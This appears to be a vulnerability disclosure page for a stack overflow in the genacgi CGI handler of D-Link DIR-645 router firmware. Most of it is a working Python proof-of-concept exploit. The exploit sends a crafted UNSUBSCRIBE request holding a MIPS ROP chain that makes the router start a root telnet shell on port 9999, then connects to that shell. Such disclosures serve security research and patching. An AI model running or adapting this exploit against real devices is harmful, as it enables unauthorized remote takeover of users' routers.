


## D-Link DIR-645 genacgi Stack Overflow

**Vender**: D-Link

**Firmware version**: DIR 645A1 1.06B01_Beta01

**Exploit Author**: Insight

**Vendor Homepage**: [http](http://www.dlink.com.cn/): [//www.dlink.com.cn/](http://www.dlink.com.cn/)

## Detailed description

This vulnerability exists in the genacgi_main function in the cgibin program. v28 is the content behind request_uri "service=". When the request is unsubscribe, sprintf formats it on the stack, causing a stack overflow.



## POC

```python
# python3
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'mips')
 
libc_base = 0x2aaf8000
 
s = socket(AF_INET, SOCK_STREAM)
 
cmd = b'telnetd -p 9999 -l /bin/sh;'
payload = b'a'*462
payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1
payload += p32(libc_base + 0x169C4) # s1  addiu $s2, $sp, 0x18 (=> jalr $s0)
payload += b'a'*4 # fp
payload += p32(libc_base + 0x32A98) # ra  addiu $s0, 1 (=> jalr $s1)
payload += b'a'*0x18 # padding
payload += cmd
 
msg = b"UNSUBSCRIBE /gena.cgi?service=" + payload + b" HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: 1\r\n\r\n"
 
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(msg)

sleep(1)
system('telnet 192.168.0.1 9999')
```



